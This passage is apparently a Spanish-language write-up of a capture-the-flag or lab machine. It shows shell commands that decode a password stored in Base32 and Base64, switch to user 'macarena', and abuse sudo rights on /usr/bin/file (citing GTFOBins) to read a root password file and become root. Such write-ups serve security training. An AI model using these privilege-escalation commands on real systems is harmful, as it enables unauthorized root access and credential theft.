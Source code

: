 ```shell
ls -la /home
--------------
drwxr-xr-x 2 root     root     4096 Aug 19 19:03 ftp
drwxr-x--- 1 macarena macarena 4096 Jan  9 02:07 macarena
drwxr-xr-x 2 root     root     4096 Aug 19 19:24 secret
```

Encontramos un directorio **secret** procedemos a inspeccionar el contenido:

```shell
ls -la /home/secret/
--------------
-rw-r--r-- 1 root root   49 Aug 19 19:24 hash
```

Hemos encontrado el fichero **hash** verificamos el contenido y encontramos una cadena que parece ser un hash:

```shell
cat /home/secret/hash
--------------
MMZVM522LBFHUWSXJYYWG3KWO5MVQTT2MQZDS6K2IE6T2===
```

Luego de realizar varias pruebas encontramos que la cadena está codificada en **Base32** y luego en **Base64** procedemos a decodificarla:

```shell
cat /home/secret/hash | base32 --decode | base64 --decode
```

Tenemos un valor que puede una contraseña verificamos si corresponde al usuario **macarena** o al usuario **root**:

```shell
su macarena
```

Hemos obtenido el password del usuario **macarena**, ahora si podemos verificar si existe algún binario que podamos ejecutar como super usuario con **sudo -l**

```shell
sudo -l
----------------------
User macarena may run the following commands on ec2518c014ba:
    (ALL : ALL) /usr/bin/file

```

Observamos que podemos ejecutar **/usr/bin/file** con todos los privilegios, esto indica que podemos leer el contenido del fichero **password.txt** que encontramos en **/opt**, revisamos la documentación de [GTFOBins for file](https://gtfobins.github.io/gtfobins/file/#sudo)

```shell
LFILE=/opt/password.tx
sudo file -f $LFILE
```

Encontramos las credenciales del usuario **root**, procedemos a autenticarnos:

```shell
su root
```

Finalmente hemos podido obtener acceso como usuario **root**:

```shell
whoami
----------------
root
```

